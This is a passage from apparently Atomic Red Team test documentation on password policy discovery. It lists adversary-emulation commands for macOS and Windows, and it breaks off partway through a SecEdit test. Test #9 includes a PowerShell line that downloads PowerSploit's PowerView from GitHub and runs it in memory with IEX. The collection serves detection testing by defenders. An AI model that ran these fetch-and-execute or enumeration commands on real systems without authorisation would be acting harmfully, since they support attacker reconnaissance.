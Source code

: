 ```bash
pwpolicy getaccountpolicies
```

<br/>
<br/>

## Atomic Test #9 - Get-DomainPolicy with PowerView

Utilizing PowerView, run Get-DomainPolicy to return the default domain policy or the domain controller policy for the current domain or a specified domain/domain controller.

**Supported Platforms:** Windows

**auto_generated_guid:** 3177f4da-3d4b-4592-8bdc-aa23d0b2e843

#### Attack Commands: Run with `powershell`!

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1' -UseBasicParsing); Get-DomainPolicy -verbose
```

<br/>
<br/>

## Atomic Test #10 - Enumerate Active Directory Password Policy with get-addefaultdomainpasswordpolicy

The following Atomic test will utilize get-addefaultdomainpasswordpolicy to enumerate domain password policy.
Upon successful execution a listing of the policy implemented will display.
Reference: https://docs.microsoft.com/en-us/powershell/module/activedirectory/get-addefaultdomainpasswordpolicy?view=windowsserver2022-ps

**Supported Platforms:** Windows

**auto_generated_guid:** b2698b33-984c-4a1c-93bb-e4ba72a0babb

#### Attack Commands: Run with `powershell`!

```powershell
get-addefaultdomainpasswordpolicy
```

<br/>
<br/>

## Atomic Test #11 - Use of SecEdit.exe to export the local security policy (including the password policy)

SecEdit.exe can be used to export the current local security policy applied to a host.
[Reference](https://blueteamops.medium.com/secedit-and-i-know-it-595056dee53d)

**Supported Platforms:** Windows
